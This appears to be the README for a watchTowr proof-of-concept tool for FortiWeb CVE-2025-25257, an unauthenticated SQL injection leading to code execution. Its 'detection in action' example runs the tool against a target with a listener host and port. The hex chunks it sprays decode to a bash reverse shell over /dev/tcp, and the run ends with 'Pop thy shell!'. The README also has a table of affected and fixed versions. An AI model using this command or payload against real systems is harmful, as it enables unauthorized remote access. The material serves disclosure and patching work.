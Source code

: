 # watchTowr-vs-FortiWeb-CVE-2025-25257

Detection Artifact Generator for FortiWeb CVE-2025-25257


See our [blog post](https://labs.watchtowr.com/) for technical details



https://github.com/user-attachments/assets/e59f2b3b-2b9b-469f-b4a8-2b7df2ede194



# Detection in Action

```
python watchTowr-vs-FortiWeb-CVE-2025-25257.py --target https://192.168.8.30/ --lhost 192.168.8.148 --lport 1350
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        watchTowr-vs-FortiWeb-CVE-2025-25257.py

        (*) FortiWeb Unauthenticated SQLi to Remote Code Execution Detection Artifact Generator

          - Sina Kheirkhah (@SinSinology) of watchTowr (@watchTowrcyber)

        CVEs: [CVE-2025-25257]

[*] sprayed chunk #1/17:        '696d706f72'
[*] sprayed chunk #2/17:        '74206f733b'
[*] sprayed chunk #3/17:        '206f732e73'
[*] sprayed chunk #4/17:        '797374656d'
[*] sprayed chunk #5/17:        '2827626173'
[*] sprayed chunk #6/17:        '68202d6320'
[*] sprayed chunk #7/17:        '222f62696e'
[*] sprayed chunk #8/17:        '2f62617368'
[*] sprayed chunk #9/17:        '202d69203e'
[*] sprayed chunk #10/17:       '26202f6465'
[*] sprayed chunk #11/17:       '762f746370'
[*] sprayed chunk #12/17:       '2f3139322e'
[*] sprayed chunk #13/17:       '3136382e38'
[*] sprayed chunk #14/17:       '2e3134382f'
[*] sprayed chunk #15/17:       '3133353020'
[*] sprayed chunk #16/17:       '303e263122'
[*] sprayed chunk #17/17:       '2729'

[*] Pop thy shell!

```

# Description

This script attempts to detect if FortiWeb is vulnerable to CVE-2025-25257

# Affected Versions

The following versions of FortiWeb are Affected

| Version      | Affected             | Solution                   |
| ------------ | -------------------- | -------------------------- |
| FortiWeb 7.6 | 7.6.0 through 7.6.3  | Upgrade to 7.6.4 or above  |
| FortiWeb 7.4 | 7.4.0 through 7.4.7  | Upgrade to 7.4.8 or above  |
| FortiWeb 7.2 | 7.2.0 through 7.2.10 | Upgrade to 7.2.11 or above |
| FortiWeb 7.0 | 7.0.0 through 7.0.10 | Upgrade to 7.0.11 or above |

For more information visit [FortiGuard Labs PSIRT](https://fortiguard.fortinet.com/psirt/FG-IR-25-151)


# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber
